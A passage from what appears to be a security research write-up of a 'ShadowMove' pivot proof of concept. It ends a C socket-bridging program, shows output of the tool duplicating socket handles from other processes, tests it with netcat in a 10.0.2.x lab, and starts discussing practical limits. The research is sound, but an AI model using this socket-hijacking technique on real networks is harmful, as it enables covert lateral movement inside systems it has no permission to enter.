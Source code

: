 ```c
		printf("\n[!] Error: could not attach to sink socket");
		return -1;
	}
	printf("[>] Attached to SINK\n");
	printf("============================\n[Link up]\n============================\n");
	bridge(srcSocket, dstSocket);
	printf("============================\n[Link down]\n============================\n");
	return 0;
}
```

We can test it connecting two listening netcats: one in 10.0.2.2 and other in 10.0.2.15.

```
-=[ ShadowMove Pivot PoC ]=-

[+] Handle to process obtained!
[+] Found [66919] handlers in PID 5364
============================
[-] Testing 3779 of 66919
[-] Testing 10254 of 66919
        [*] \Device\Afd found at 10254!
        [*] Duplicated socket (10.0.2.15)
[+] Handle to process obtained!
[+] Found [67202] handlers in PID 7596
============================
[-] Testing 3767 of 67202
[-] Testing 10240 of 67202
        [*] \Device\Afd found at 10240!
        [*] Duplicated socket (10.0.2.2)

[<] Attached to SOURCE
[>] Attached to SINK
============================
[Link up]
============================
```
In one of our ends:

```
psyconauta@insulanova:~/Research/shadowmove|⇒  nc -lvp 8081
Listening on [0.0.0.0] (family 0, port 8081)
Connection from localhost 59596 received!
Hello from 10.0.2.15!
This is me from 10.0.2.2!
```
# Real life problems and solutions
Here we sumarize the problems:

**Racing with the devil.** We are playing with a duplicated socket, so the original program keeps doing reads. This means that some bytes can be loss if they are readed by the program instead of us, but this can be solved easy if we implemented a custom protocol that takes care of missing packets.
